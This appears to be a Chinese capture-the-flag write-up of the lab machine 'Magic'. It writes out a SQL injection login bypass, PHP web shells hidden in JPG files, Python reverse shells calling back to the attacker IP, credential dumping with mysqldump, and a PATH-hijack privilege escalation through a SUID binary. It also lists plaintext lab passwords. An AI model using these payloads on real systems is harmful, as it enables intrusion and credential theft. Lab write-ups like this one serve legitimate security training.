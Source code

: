 # Magic\_185

![image-20200917091235729](assets/Magic_185.assets/image-20200917091235729.png)

![image-20200626221132822](assets/Magic_185.assets/image-20200626221132822.png)

![image-20200626222049622](assets/Magic_185.assets/image-20200626222049622.png)

![image-20200626225741218](assets/Magic_185.assets/image-20200626225741218.png)

是一个可以通过登录上传图片并展示的网站，查看源码，发现了可能的文件上传目录

![image-20200626231019218](assets/Magic_185.assets/image-20200626231019218.png)

看一下登录页面

![image-20200626223132169](assets/Magic_185.assets/image-20200626223132169.png)

抓包，用数据库登录绕过语句字典打一下

![image-20200626223249132](assets/Magic_185.assets/image-20200626223249132.png)

![image-20200626223504542](assets/Magic_185.assets/image-20200626223504542.png)

![image-20200626223633076](assets/Magic_185.assets/image-20200626223633076.png)

可成功绕过的语句有很多。随便使用一个登录

```bash
admin' or '1'='1'#
```

![image-20200626224244796](assets/Magic_185.assets/image-20200626224244796.png)

尝试上传，看提示只允许jpg,jpeg,png。

![image-20200626224648776](assets/Magic_185.assets/image-20200626224648776.png)

使用最常用的方法制作jpg cmd shell，随便cp到工作目录一个jpg图片文件，为图片追加php

```bash
echo '<?php system($_GET['cmd']); ?>' >> img_cmd_shell.php.jpg
```

![image-20200626233429047](assets/Magic_185.assets/image-20200626233429047.png)

也可以使用exiftool增加exif信息，但是这样的处理方法命令回显在乱码中，不容易找到。而追加方法则会让回显在页面最后，清晰可见

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' jpg_cmd_shell.php.jpg
```

![image-20200626225120009](assets/Magic_185.assets/image-20200626225120009.png)

上传

![image-20200626225222859](assets/Magic_185.assets/image-20200626225222859.png)

![image-20200626225344184](assets/Magic_185.assets/image-20200626225344184.png)

```bash
10.10.10.185/images/uploads/jpg_cmd_shell.php.jpg?cmd=id
```

![image-20200626232903423](assets/Magic_185.assets/image-20200626232903423.png)

这是exiftool的方法制作的，回显在乱码中间，再看看通过普通追加的

```bash
10.10.10.185/images/uploads/img_cmd_shell.php.jpg?cmd=id
```

![image-20200626233722054](assets/Magic_185.assets/image-20200626233722054.png)

回显在页面最下发

查看是否具有python

![image-20200626233950257](assets/Magic_185.assets/image-20200626233950257.png)

python没有，只有python3 ，一样的，在本地1337端口建立监听，浏览器命令

```bash
10.10.10.185/images/uploads/img_cmd_shell.php.jpg?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

图片似乎很快被清理掉了，如果出现404,则重新上传图片即可

![image-20200626234359406](assets/Magic_185.assets/image-20200626234359406.png)

一些枚举之后发现数据库凭证

![image-20200627001902951](assets/Magic_185.assets/image-20200627001902951.png)

```bash
theseus:iamkingtheseus
```

尝试密码复用，但是并没有成功

![image-20200627002100762](assets/Magic_185.assets/image-20200627002100762.png)

本地登录mysql

```bash
mysql localhost -u theseus -p
```

![image-20200627003220946](assets/Magic_185.assets/image-20200627003220946.png)

没有mysql？

![image-20200627003027379](assets/Magic_185.assets/image-20200627003027379.png)

![image-20200627002719515](assets/Magic_185.assets/image-20200627002719515.png)

查看`/usr/bin`发现mysqldump

![image-20200627003417451](assets/Magic_185.assets/image-20200627003417451.png)

参考到之前在db.php中发现的数据库名为Magic，使用mysqldump将整个数据库dump下来

```bash
mysqldump --databases Magic -u theseus -p
```

![image-20200627003845035](assets/Magic_185.assets/image-20200627003845035.png)

在输出中发现新的凭据

![image-20200627003925974](assets/Magic_185.assets/image-20200627003925974.png)

因为home下只有一个用户theseus，所以猜测这个密码仍然属于theseus，尝试密码复用

```bash
Th3s3usW4sK1ng
```

![image-20200627004041712](assets/Magic_185.assets/image-20200627004041712.png)

成功切换

![image-20200627004236390](assets/Magic_185.assets/image-20200627004236390.png)

在利用linpeas脚本进行了一些枚举后发现

![image-20200627005232336](assets/Magic_185.assets/image-20200627005232336.png)

拥有s权限

但是sysinfo初步看来并没有什么有用信息

![image-20200627005951311](assets/Magic_185.assets/image-20200627005951311.png)

尝试运行，信息有4部分组成

hardware info

![image-20200627005653133](assets/Magic_185.assets/image-20200627005653133.png)

disk info

![image-20200627010350946](assets/Magic_185.assets/image-20200627010350946.png)

cpu info

![image-20200627010419660](assets/Magic_185.assets/image-20200627010419660.png)

men usage

![image-20200627010449328](assets/Magic_185.assets/image-20200627010449328.png)

看输出内容应该是调用了系统命令

最常用的就是free和fdisk了。对比一下，果然。

![image-20200627010622548](assets/Magic_185.assets/image-20200627010622548.png)

而fdisk是需要root权限的

![image-20200627010726832](assets/Magic_185.assets/image-20200627010726832.png)

所以sysinfo所需的s权限应该就是在执行fdisk -l时的root权限。

![image-20200627011008394](assets/Magic_185.assets/image-20200627011008394.png)

我们可以通过伪造环境变量，让sysinfo错误的以为我们在当前文件夹伪造的fdisk文件，是/sbin/fdisk命令

首先在/tmp文件夹下伪造fdisk，内容为python rshell命令。

```bash
vi fdisk
写入以下内容
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.189",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![image-20200627012913333](assets/Magic_185.assets/image-20200627012913333.png)

增加可执行权限

```bash
chmod +x fdisk
```

修改环境变量,并执行sysinfo

```bash
export PATH=/tmp:$PATH
/bin/sysinfo
```

![image-20200627013148644](assets/Magic_185.assets/image-20200627013148644.png)

![image-20200627013212589](assets/Magic_185.assets/image-20200627013212589.png)

